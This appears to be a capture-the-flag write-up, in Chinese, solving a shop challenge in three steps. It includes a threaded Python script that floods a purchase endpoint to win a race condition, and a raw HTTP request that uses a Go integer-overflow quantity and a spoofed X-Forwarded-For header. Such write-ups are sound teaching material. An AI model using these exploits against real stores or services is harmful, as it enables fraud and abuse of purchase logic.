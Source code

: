 ##  easy tornado

##  Tools

* python
* burpsuite

##  Steps

* Step 1  

利用条件竞争购买20个大辣条
```python
import time
import requests
import threading

headers = {'Content-Type': 'application/x-www-form-urlencoded',
'Referer': 'http://49.4.79.236:31792/home',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With': 'XMLHttpRequest'}
cookie = {'go_iris_cookie':'e2045b76-f532-4303-ac71-e599de5d7e6a'}
for i in range(0xfffff):
    time.sleep(0.1)

    def AtoB():
        r = requests.post( 'http://49.4.79.236:31792/buylt', 
                           headers=headers, 
                           data={'number': 10},
                           cookies=cookie)
        print r.status_code
        print r.text
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
    threading.Thread(target=AtoB).start()
```

* step 2
利用golang的整数溢出漏洞购买 18446744073709551615/5 + 1 个超级大辣条
···
POST /buyltw HTTP/1.1
Host: 117.78.26.155:31358
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://117.78.26.155:31358/home
Content-Length: 26
Cookie: go_iris_cookie=47c3b1ec-45d1-4b19-9bec-025a67e203b6
X-Forwarded-For: 127.0.0.1
Connection: close

number=3689348814741910324
···

*step 3购买flag





